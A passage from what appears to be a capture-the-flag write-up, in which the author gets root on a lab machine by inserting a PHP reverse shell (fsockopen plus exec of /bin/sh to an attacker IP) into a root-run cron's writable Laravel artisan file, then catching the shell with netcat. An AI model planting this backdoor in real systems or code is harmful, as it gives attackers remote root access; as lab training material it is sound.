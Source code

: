 The cron syntax here says that it will run every minute, as root:

![Crontab tips and tricks - EazyLinux](https://0xdfimages.gitlab.io/img/crontab-syntax.png)

The command is `php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1`

I don’t really need to know what the Laravel artisan is doing. What does matter is that as www-data, I have write permissions on that file:

```

www-data@cronos:/var/www/laravel$ ls -la artisan 
-rwxr-xr-x 1 www-data www-data 1646 Apr  9  2017 artisan

```

### Poison artisan

I’ll open the `artisan` file and add two lines at the top:

```

<?php

$sock=fsockopen("10.10.14.24", 443);
exec("/bin/sh -i <&3 >&3 2>&3");
/*
|--------------------------------------------------------------------------
| Register The Auto Loader
|--------------------------------------------------------------------------

```

Next time the cron runs, I get a callback:

```

root@kali# nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.13.
Ncat: Connection from 10.10.10.13:36216.
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)

```

After a shell upgrade, grab the final flag:

```

root@cronos:~# cat root.txt
1703b8a3************************

```
